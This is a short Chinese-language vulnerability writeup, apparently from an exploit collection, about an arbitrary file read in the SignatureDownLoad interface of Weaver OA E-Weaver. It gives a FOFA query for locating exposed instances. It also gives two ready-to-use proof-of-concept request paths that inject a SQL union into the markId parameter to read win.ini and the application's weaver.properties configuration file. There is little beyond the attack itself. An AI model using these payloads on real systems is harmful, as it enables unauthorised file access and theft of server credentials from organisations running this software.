


# 泛微OA E-Weaver SignatureDownLoad 任意文件读取漏洞

## 漏洞描述

泛微OA E-Weaver SignatureDownLoad接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

泛微OA E-Weaver

## FOFA

```
app="泛微-E-Weaver"
```

## 漏洞复现


验证POC

```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27C:/Windows/win.ini%27
```



```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27
```

